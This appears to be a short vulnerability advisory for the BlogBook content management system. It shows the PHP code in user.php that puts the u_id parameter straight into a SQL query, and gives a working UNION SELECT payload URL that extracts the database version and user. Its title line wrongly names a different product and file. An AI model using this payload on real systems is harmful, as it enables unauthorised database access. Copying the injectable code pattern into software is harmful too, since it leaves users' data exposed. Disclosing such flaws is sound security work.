

# BlogBook user.php u_id Parameter SQL Injection

**Exploit Title: dingfanzu-CMS saveNewPwd.php username SQL inject**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

The BlogBook application is vulnerable to SQL injection via the `u_id` parameter in the `user.php` script. An unauthenticated attacker can exploit this vulnerability by providing a specially crafted `u_id` value in the URL. This allows the attacker to execute arbitrary SQL commands on the backend database, potentially leading to unauthorized data access, modification, or deletion, and in some configurations, remote code execution.

## Vulnerability Point

`blogbook-main/user.php:26`

## Vulnerable Parameter

`u_id`

## Vulnerable Code

```php
  if (isset($_GET['u_id'])) {
                    $link_user_id = $_GET['u_id'];


                    $query = "SELECT * FROM users WHERE user_id=$link_user_id";
                    $select_all_users_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_users_query)) {
    
                        $user_id = $row['user_id'];
                         $username = $row['username'];
                        $user_fname = $row['user_firstname'];
                        $user_lname = $row['user_lastname'];
                        $user_mail = $row['user_email'];
                           $user_image = $row['user_image'];
                        $user_role = $row['user_role'];
                        $user_info=$row['user_info'];
    
                        //  $query = "SELECT * FROM categories WHERE cat_id={$user_category_id}";
                        //         $select_categories_id = mysqli_query($connection, $query);
                        //         $cat = mysqli_fetch_assoc($select_categories_id);
                        //         $user_category = $cat['cat_title'];
                    }
                ?>
```
## Payload

`http://localhost/user.php?u_id=-1 UNION SELECT NULL,@@version,NULL,NULL,user(),NULL,NULL,NULL,NULL --`


